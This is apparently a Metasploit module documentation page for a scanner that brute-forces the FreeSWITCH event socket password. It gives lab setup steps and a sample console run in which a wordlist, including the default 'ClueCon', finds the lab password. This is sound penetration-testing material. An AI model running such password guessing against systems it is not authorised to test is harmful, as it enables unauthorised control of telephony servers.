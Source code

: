 ## Vulnerable Application
[FreeSWITCH](https://freeswitch.com/) is a free and open-source software defined telecommunications stack for real-time communication,
WebRTC, telecommunications, video, and Voice over Internet Protocol.

The [Event Socket](https://freeswitch.org/confluence/display/FREESWITCH/mod_event_socket) `mod_event_socket` is a TCP based interface to
control FreeSWITCH and is enabled by default.

This module has been tested successfully on FreeSWITCH versions:
* 1.10.7-release-19-883d2cb662~64bit on Debian 10.11 (buster)

### Description

This module is a login utility to find the password of the FreeSWITCH event socket service by bruteforcing the login interface.
Note that this service does not require a username to log in; login is done purely via supplying a valid password.
This module will stops as soon as a valid password is found.

This service is enabled by default and listens on TCP port 8021 on the local network interface.

Source and Installers:
* [Source Code Repository](https://github.com/signalwire/freeswitch)
* [Installers](https://freeswitch.org/confluence/display/FREESWITCH/Installation)
* [Virtual Machine](https://freeswitch.com/index.php/fs-virtual-machine/)
* [Docker](https://github.com/drachtio/docker-drachtio-freeswitch-mrf)

Docker installation:
```
docker pull drachtio/drachtio-freeswitch-mrf
docker run -d --rm --name FS1 --net=host \
-v /home/deploy/log:/usr/local/freeswitch/log  \
-v /home/deploy/sounds:/usr/local/freeswitch/sounds \
-v /home/deploy/recordings:/usr/local/freeswitch/recordings \
drachtio/drachtio-freeswitch-mrf freeswitch --sip-port 5038 --tls-port 5039 --rtp-range-start 20000 --rtp-range-end 21000 --password hunter
```

## Verification Steps
1. Do: `use auxiliary/scanner/misc/freeswitch_event_socket_login`
2. Do: `set RHOSTS [ips]`
3. Do: `set PASS_FILE /home/kali/passwords.txt`
4. Do: `run`

## Options
### PASS_FILE
The file containing a list of passwords to try logging in with.

## Scenarios
### FreeSWITCH 1.10.7 Linux Debian 10.11 (Docker Image)
```
msf > use auxiliary/scanner/misc/freeswitch_event_socket_login
msf auxiliary(scanner/misc/freeswitch_event_socket_login) > set RHOSTS 192.168.56.1
RHOSTS => 192.168.56.1
msf auxiliary(scanner/misc/freeswitch_event_socket_login) > set PASS_FILE /home/kali/passwords.txt
PASS_FILE => /home/kali/passwords.txt
msf auxiliary(scanner/misc/freeswitch_event_socket_login) > run

[!] 192.168.56.1:8021        - No active DB -- Credential data will not be saved!
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: ClueCon (Incorrect: -ERR invalid)
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: admin (Incorrect: -ERR invalid)
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: 123456 (Incorrect: -ERR invalid)
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: 12345 (Incorrect: -ERR invalid)
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: 123456789 (Incorrect: -ERR invalid)
[-] 192.168.56.1:8021        - 192.168.56.1:8021 - LOGIN FAILED: password (Incorrect: -ERR invalid)
[+] 192.168.56.1:8021        - 192.168.56.1:8021 - Login Successful: hunter (Successful: +OK accepted)
[*] 192.168.56.1:8021        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

